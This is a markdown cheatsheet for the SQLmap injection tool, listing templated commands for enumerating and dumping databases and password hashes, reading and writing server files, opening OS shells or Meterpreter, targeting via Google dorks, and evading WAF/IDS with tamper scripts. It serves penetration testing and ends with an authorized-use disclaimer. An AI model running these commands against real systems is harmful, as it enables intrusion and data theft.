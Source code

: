 # SQLmap Cheatsheet

## Basic Usage
- `sqlmap -u <URL>`: Basic scan of a URL for SQL injection.
- `sqlmap -u <URL> --data="<POST_DATA>"`: Scan a URL with POST data.
- `sqlmap -l <log_file.log>`: Parse targets from a Burp or WebScarab proxy log file.
- `sqlmap -r <request_file.txt>`: Load HTTP request from a file.
- `sqlmap -g "<google_dork>"`: Process Google dork results as target URLs.

## Enumeration
- `sqlmap -u <URL> --dbs`: Enumerate databases.
- `sqlmap -u <URL> -D <database_name> --tables`: Enumerate tables in a specific database.
- `sqlmap -u <URL> -D <database_name> -T <table_name> --columns`: Enumerate columns in a specific table.
- `sqlmap -u <URL> -D <database_name> -T <table_name> -C <column_names> --dump`: Dump data from specific columns.
- `sqlmap -u <URL> --current-user`: Retrieve the current database user.
- `sqlmap -u <URL> --current-db`: Retrieve the current database name.
- `sqlmap -u <URL> --is-dba`: Detect if the current user is a DBA.
- `sqlmap -u <URL> --users`: Enumerate database users.
- `sqlmap -u <URL> --passwords`: Enumerate database user password hashes.
- `sqlmap -u <URL> --roles`: Enumerate database user roles.
- `sqlmap -u <URL> --schema`: Enumerate the entire database schema.

## Optimization and Performance
- `--level=<1-5>`: Level of tests to perform (default: 1). Higher levels include more complex queries.
- `--risk=<1-3>`: Risk of tests to perform (default: 1). Higher risks include potentially harmful queries.
- `-p <parameter>`: Test a specific parameter (e.g., `-p id`).
- `--threads=<number>`: Maximum number of concurrent HTTP(s) requests (default: 1).
- `--dbms=<DBMS>`: Force back-end DBMS to this value (e.g., `MySQL`, `PostgreSQL`).
- `--os=<OS>`: Force back-end DBMS operating system to this value (e.g., `Linux`, `Windows`).
- `--batch`: Never ask for user input, use default behavior.
- `--flush-session`: Flush session files for the current target.

## Injection Techniques
- `--technique=<techniques>`: SQL injection techniques to use (e.g., `BEUSTQ`).
  - `B`: Boolean-based blind
  - `E`: Error-based
  - `U`: Union query-based
  - `S`: Stacked queries
  - `T`: Time-based blind
  - `Q`: Inline queries
- `--union-cols=<range>`: Specify range of columns for UNION query injection (e.g., `10-20`).
- `--union-char=<char>`: Character to use for bruteforcing number of columns (default: `NULL`).

## File System Access
- `sqlmap -u <URL> --file-read="<file_path_on_server>"`: Read a file from the back-end DBMS file system.
- `sqlmap -u <URL> --file-write="<local_file_path>" --file-dest="<remote_file_path_on_server>"`: Write a local file to the back-end DBMS file system.

## Operating System Access (requires advanced privileges)
- `sqlmap -u <URL> --os-shell`: Prompt for an interactive operating system shell.
- `sqlmap -u <URL> --os-cmd="<command>"`: Execute an operating system command.
- `sqlmap -u <URL> --os-pwn`: Prompt for an OOB shell, Meterpreter, or VNC.

## Brute Force
- `sqlmap -u <URL> --common-tables`: Brute force common table names.
- `sqlmap -u <URL> --common-columns`: Brute force common column names.

## Miscellaneous
- `--forms`: Parse and test forms on the target URL.
- `--crawl=<depth>`: Crawl the website starting from the target URL.
- `--cookie="<cookie_string>"`: Set HTTP Cookie header value.
- `--user-agent="<user_agent_string>"`: Set HTTP User-Agent header value.
- `--referer="<referer_string>"`: Set HTTP Referer header value.
- `--headers="<headers_string>"`: Extra headers (e.g., `Accept-Language: fr\nETag: 123`).
- `--proxy="<proxy_address:port>"`: Use an HTTP proxy.
- `--tor`: Use Tor anonymity network.
- `--random-agent`: Use a randomly selected HTTP User-Agent.
- `-v <0-6>`: Verbosity level (0=silent, 1=default, ..., 6=debug).
- `--tamper=<tamper_script>`: Use given tamper script(s) to evade WAF/IDS (e.g., `space2comment`).

**Disclaimer:** Use SQLmap responsibly and only on systems you have explicit permission to test. Unauthorized access or attacks are illegal. 